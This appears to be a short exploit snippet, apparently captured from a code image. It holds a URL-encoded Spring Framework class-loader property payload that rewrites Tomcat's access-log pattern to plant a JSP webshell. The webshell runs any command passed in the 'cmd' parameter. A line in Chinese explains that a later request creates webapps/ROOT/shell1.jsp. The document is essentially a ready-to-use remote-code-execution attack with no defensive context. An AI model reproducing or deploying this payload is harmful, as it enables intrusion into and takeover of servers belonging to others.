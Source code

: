 ```bash
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%24%7b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%2c%20%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%70%61%72%61%6d%2e%63%6d%64%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%3b%54%68%72%65%61%64%2e%73%6c%65%65%70%28%31%30%30%30%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%61%76%61%69%6c%61%62%6c%65%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6e%69%6f%2e%42%79%74%65%42%75%66%66%65%72%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%29%2e%67%65%74%4d%65%74%68%6f%64%28%22%61%6c%6c%6f%63%61%74%65%22%2c%20%49%6e%74%65%67%65%72%2e%54%59%50%45%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%29%2e%69%6e%76%6f%6b%65%28%6e%75%6c%6c%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%72%65%61%64%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2c%20%30%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2e%67%65%74%43%6c%61%73%73%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%29%2e%67%65%74%43%6f%6e%73%74%72%75%63%74%6f%72%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%29%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%29%7d
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```

然后任意 URL 发起请求  
会在就根目录生成 webapps/ROOT/shell1.jsp
